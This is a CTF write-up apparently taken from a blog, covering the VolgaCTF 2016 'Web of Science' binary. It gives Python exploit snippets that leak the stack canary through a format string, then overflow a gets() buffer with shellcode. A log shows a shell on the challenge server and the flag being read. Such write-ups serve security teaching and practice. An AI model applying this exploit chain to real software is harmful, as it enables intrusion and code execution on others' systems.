 date: 2016-03-28 00:00:00
modified: 2016-03-28 00:00:00
title: VolgaCTF 2016 - Web of Science
tags: pwn,volgactf-2016,x86
author: hugsy
category: ctf

### Info ###


```bash
gef➤  !file ./web_of_science
./web_of_science: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=85e0df26435ee411258ad39668c9700b1ebadec9, stripped
gef➤  checksec
[+] checksec for '/home/hugsy/ctf/volgactf_2016/web_of_science'
Canary:                                           Yes
NX Support:                                       No
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
```

It's a simple dynamically linked binary for x86-64. We have a canary stack
however the stack is executable (the '90s says hello!), which `gef`
confirms instantly:
![exec-stack](https://i.imgur.com/LfT3dt1.png)


### Vulnerabilities ###

`web_of_science` is a tool to manage scientific papers.
The binary is full of vulnerabilities, many of which were automatically detected
by the `format-string-helper` command from [GDB-GEF](https://github.com/hugsy/gef.git)

![fmt-str-gef](https://i.imgur.com/cqYmZLi.png)

Without any static analysis, we immediately spot that many (if not all)
`printf()` calls are vulnerable to format string vulnerabilities, where we
control the format field. That's good, we can leverage that later to bypass the
canary protection. So far, so good ☺


So what does the binary do? It starts by call the function at 0x04007CD which
checks if we are human by prompting us to solve an addition with randomly
generated integers. Pretty hardcore stuff, right?

Then we jump into serious business at 0x400E1C. The function offers a menu to
respectively add/delete/list/view papers and exit.

When adding a paper (`add_paper()` function), a stack buffer of 1096 bytes is
allocated on the stack. It is then possible to populate different fields of this
stack allocated paper as shown here:

![add-paper-fill-info](https://i.imgur.com/dTZmTgS.png)

When saving the stack buffer is then copied to the .bss segment:

```bash
.text:0000000000400BAD loc_400BAD:                             ; DATA XREF: .rodata:0000000000401240
.text:0000000000400BAD                 mov     eax, cs:nb_papers
.text:0000000000400BB3                 cdqe
.text:0000000000400BB5                 shl     rax, 6
.text:0000000000400BB9                 mov     rdx, rax
.text:0000000000400BBC                 shl     rdx, 4
.text:0000000000400BC0                 add     rax, rdx
.text:0000000000400BC3                 add     rax, offset base_papers
.text:0000000000400BC9                 mov     rdx, rax
.text:0000000000400BCC                 lea     rsi, [rbp+paper]
.text:0000000000400BD3                 mov     eax, 88h
.text:0000000000400BD8                 mov     rdi, rdx
.text:0000000000400BDB                 mov     rcx, rax
.text:0000000000400BDE                 rep movsq               ; memcpy(base_paper[i], paper_stack)
.text:0000000000400BE1                 mov     eax, cs:nb_papers
.text:0000000000400BE7                 add     eax, 1          ; increments the number of paper
.text:0000000000400BEA                 mov     cs:nb_papers, eax
.text:0000000000400BF0                 jmp     short loc_400BF9
```

One stricking thing is of course the massive use of `gets()` everywhere for user
input. So we think immediately to stack-based buffer overflow.

The `view_paper()` function (at 0x400D52) receives a pointer to a paper and
displays its information using `printf()` - which makes us understand what
triggered the `gef` plugin for format string.

![view-paper](https://i.imgur.com/f7hs6qZ.png)


### Exploitation ###

The exploitation process will go something like this:

   1. Use of the format string vulnerabilities to leak stack until we get the
      canary using `printf()`
   1. Overflow one of the stack allocated buffer using `gets()`, correctly
      insert the canary, and jump to our stack-based shellcode.

So this lines up the following sequential steps:

   - Create a paper to allocate a 1096 byte stack buffer
```python
    ok("Adding a paper")
    s.read_until("> ")
    s.write("1\n") # add_paper

    ok("Adding paper name")
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    s.read_until("Paper name: ")
    s.write('A'*10+"\n")
```

   - Using the abstract field of the paper to store our format string to leak
    the canary, and the stack address (for returning to it).
```python
    ok("Adding paper abstract")
    s.read_until("> ")
    s.write("3\n") # add_paper_abstract
    s.read_until("Paper abstract: ")
    s.write("%7$p.%163$p" + "\n")
```
   A stack address was found at `"$7$p"` and the canary at `"%163$p"`.

   - We need to view the paper to actually trigger the format string information
     leak:
```python
    s.read_until("> ")
    s.write("5\n") # view_paper_info
    s.read_until("Abstract:\n\t")
    paper_addr, canary = s.read_until("\nTags:\n\t")[:-8].split('.', 1)
    paper_addr = int(paper_addr, 16)
    canary = int(canary, 16)
    ok("Got addr: %#x" % paper_addr)
    ok("Got canary: %#x" % canary)
```

   - And now, build our payload, overflow the buffer, insert the canary to get
   good karma, and make the `ret` at 0x400C0E fall back to our controlled
   buffer:
```python
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    ok("Sending payload")
    payload = ""
    payload+= "\x90"*0x8
    payload+= SC
    payload+= "\x90"*(1096-len(payload))
    payload+= q_s(canary) + "JUNK"*2 + q_s(paper_addr)
    s.read_until("Paper name: ")
    s.write(payload + '\n')

    s.read_until("> ")
    s.write("6\n") # quit to trigger the ret
```

And the execution gives:
```bash
~/ctf/volgactf_2016 $  ./gef-exploit.py
[+] Connected to webofscience.2016.volgactf.ru:45678
[+] Passing checks
[+] Adding a paper
[+] Adding paper name
[+] Adding paper abstract
[+] Showing paper to leak the canary
[+] Got addr: 0x7fffffffe6e0
[+] Got canary: 0x675049f6baf95300
[+] Sending payload
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '

python -c "import pty;pty.spawn('/bin/bash')"
nobody@scweb1:/opt$ ls
flag_wos.txt  install  start_wos  web_of_science
nobody@scweb1:/opt$ cat flag_wos.txt
VolgaCTF{executable_st@ck_doesnt_cause_@ny_problems_d0es_it}
```

All done mate !


### Conclusion ###

Final word (or image):

![image_alt](https://i.imgur.com/PjfFC2f.jpg)

Full exploit is : [gef-exploit.py](https://gist.github.com/hugsy/deae32e1da40e7b8c754)

A write-up for `web_of_science_2` might as well come soon, stay tuned...
